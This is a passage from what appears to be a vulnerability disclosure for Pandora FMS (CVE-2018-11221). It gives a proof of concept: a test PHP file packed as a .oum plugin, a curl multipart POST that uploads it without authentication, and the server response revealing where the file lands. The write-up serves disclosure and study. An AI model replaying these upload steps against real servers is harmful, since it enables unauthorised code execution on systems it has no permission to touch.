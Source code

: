 In this case we are not authorized to use the `get_file` functionality, [reviewing the code](https://github.com/pandorafms/pandorafms/blob/develop/pandora_console/include/get_file.php) you can find that this call needs to be authenticated with the DB admin password, on some kind weird way.

## Unauthenticated upload of untrusted code _(CVE-2018-11221)_

Another interesting call is the `update_manager.ajax.php`, this one seems to be used to upload Pandora plugins, this method allows only the upload of `.oum` files, these files are simple zipped folders without requiring some special structure or content.

With this in mind, we could craft our own plugin creating a folder with a php inside and zip it:

**plugin.php**
```php
<?php
echo "Pwned!\n";
echo 'Current PHP version: ' . phpversion() . "\n";
?>
```

**zipping our bundle**
```bash
> zip -r -9 plugin.oum plugin
  adding: plugin/ (stored 0%)
  adding: plugin/phpinfo.php (deflated 15%)
```

To upload the plugin, we must POST it with a multipart form, the next call can be used to upload the file without permissions on the system

```bash
curl 'http://127.0.0.1/pandora_console/ajax.php?page=include/ajax/update_manager.ajax&upload_file=true'\
    -H 'Host: 127.0.0.1'\
    -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0'\
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'\
    -H 'Connection: keep-alive'\
    -H 'Upgrade-Insecure-Requests: 1'\
    -X POST\
    -H 'Content-Type: multipart/form-data'\
    -F 'name=upfile'\
    -F "filename=plugin.oum"\
    -F "upfile=@plugin.oum"
```

Once executed, the server will return the full absolute path of the uploaded plugin:

```json
{"status":"success","package":"/tmp/pandora_oum/plugin.oum"}
```

The server once received the plugin decompresses it to the servers temporal folder returned in the response, so absolute path of our `php` file will be `/tmp/pandora_oum/plugin.oum/plugin/phpinfo.php`.
